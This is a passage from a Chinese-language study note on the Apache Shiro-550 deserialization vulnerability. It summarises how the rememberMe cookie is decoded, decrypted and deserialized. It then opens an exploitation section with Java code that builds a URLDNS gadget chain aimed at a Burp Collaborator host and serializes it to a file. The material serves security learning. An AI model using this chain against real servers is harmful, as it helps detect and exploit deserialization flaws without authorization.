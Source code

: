 <img src="JAVA%E5%AE%89%E5%85%A8shiro-550%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/1711023811540.png" alt="1711023811540" style="zoom: 50%;" />

总结流程：

<1>读取cookie中的rememberMe的值

<2>对值进行base64解密

<3>对解密结果进行AES解密+反序列化得到用户名

### 3.漏洞利用

解密流程中对cookie中的rememberMe的值最终进行了反序列化操作，那么我们只要传入前边学过的反序列化触发的链子便可以进行命令执行

#### 3.1 URLDNS链

由于URLDNS链基本上都是用的Java内置类实现的，所以应用范围较广，但也就只能用来发起DNS请求，我们来试一下：

这里我直接把之前学的URLDNS链原封不动拿过来了：

```java
HashMap<URL,Integer> hashMap = new HashMap<URL,Integer>();
URL url = new URL("http://ob328eym9gl464dbs50lp5unwe24qt.burpcollaborator.net");
Class c = url.getClass();
Field hashcode = c.getDeclaredField("hashCode");
hashcode.setAccessible(true);
hashcode.set(url,1);
hashMap.put(url,1);
hashcode.set(url,-1);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\URLDNS.txt"));
oos.writeObject(hashMap);
```

